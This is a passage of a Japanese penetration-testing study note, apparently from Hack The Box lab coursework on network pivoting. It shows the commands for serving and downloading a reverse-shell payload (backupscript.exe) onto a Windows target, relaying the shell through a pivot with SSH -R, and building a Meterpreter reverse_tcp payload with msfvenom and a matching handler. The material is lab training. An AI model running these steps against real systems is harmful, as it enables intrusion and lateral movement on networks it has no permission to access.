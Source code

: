 4.  ピボットホストでPythonウェブサーバーを起動
　- 次に、ピボットホスト上で **簡易ウェブサーバー（ポート8123）** を起動し、Windowsターゲットから backupscript.exe をダウンロードできるようにする
```sh
ubuntu@Webserver$ python3 -m http.server 8123
```

5.  Windowsターゲットでペイロードをダウンロード
 - Windowsターゲットマシンから、**PowerShellの Invoke-WebRequest を使ってペイロードを取得**する
 ```sh
 PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

6.  リバースポートフォワーディングの設定（SSH -R）
- ペイロードが Windowsターゲット 上に配置されたら、**ピボットホスト（Ubuntu）を経由して攻撃ホストへリバースシェルの通信を転送** する
```sh
snowyowl644@htb[/htb]$ ssh -R <ピボットホストのIP>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
- `-R <ピボットホストのIP>:8080:0.0.0.0:8000`
	- Ubuntuサーバーのポート8080でリッスンし、攻撃ホスト（0.0.0.0:8000）へ転送
- `-vN`
	- -v は詳細なデバッグ出力を表示し、-N はシェルを開かずにフォワーディングのみ実行

7. リバースシェルの確立
- 全てがうまく行ったら、攻撃ホストで待ってれば、windowsのシェルが飛んでくる

成功したときの図
![](https://i.imgur.com/eIy00wR.png)

# MeterPreterトンネルでのポートフォワーディング
前提シナリオ
- Ubuntuサーバー（ピボットホスト）にMeterpreterシェルでアクセスできる状況 
行いたいこと
- ピボットホストを経由してネットワークスキャンを行いたい
- でもSSHポートフォワーディングを使わずに、MeterPreterの機能を活用してピポットを作成したい

## 前提シナリオの用意
まずUbuntuサーバー用のMeterpreterリバースシェルを作成し、攻撃ホスト（ポート8080）へ接続するように設定する

1. Ubuntuピボットホスト用のペイロード作成
- msfvenom を使って **Ubuntuピボットホスト用のMeterpreterリバースTCPペイロード** を作成する
```shell
snowyowl644@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Attack HostのIP> -f elf -o backupjob LPORT=8080
```

2.  Metasploitのリスナーを設定
- Metasploitの multi/handler を使用し、攻撃ホスト上でポート8080でリスニングする
```shell
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080 
```
